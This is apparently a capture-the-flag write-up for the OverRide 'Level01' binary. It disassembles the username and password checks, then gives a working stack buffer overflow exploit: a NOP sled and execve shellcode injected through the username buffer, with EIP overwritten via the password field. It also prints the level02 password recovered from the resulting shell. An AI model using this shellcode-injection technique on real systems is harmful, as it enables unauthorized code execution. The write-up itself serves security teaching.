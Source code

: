 # Level01

we start by disass the main function and we found this program after setup the stack print

> "\***\*\*\*\*** ADMIN LOGIN PROMPT \***\*\*\*\***"

and then ask the user to insert the username

> 0x80486df: "Enter Username: "

when the user insert the username they pass it to a function call `verify_user_name` to verify the username lets disass this function

```c
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690 // "verifying username....\n"
   0x08048473 <+15>:	call   0x8048380 <puts@plt>
   0x08048478 <+20>:	mov    edx,0x804a040 // <a_user_name>:	 "" the value that you insert as usernam
   0x0804847d <+25>:	mov    eax,0x80486a8 // "dat_wil"
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
End of assembler dump.
```

in this part they impliment a loop size ecx = 0x7 check if the username == "dat_wil"

if not they print 'nope, incorrect username...' and leave

else they check the password function `verify_user_pass` lets disass this func:

```c
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
End of assembler dump.
```

also in this part they check if the password equal to "admin" but even we insert this value we can't get the flag but we notice that the function fgets in `verify_user_name` read _256_ characters and in the second function `verify_user_pass` read _100_ characters when we give it more we got a **Segmentation fault (core dumped)**

lets try to add a shellcode in the first buffer and lets call it in the second one

we calculate the offset and we found it **75** i used [this Link](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

```python
python -c "print 'dat_will' + '\x90' * 128 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'" > A

python -c "print 'B' * 80 + '\xc0\xa0\x04\x08' + 'B' * 100" > B
```

and we got the flag

```c
level01@OverRide:~$ (cat A; cat B -)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
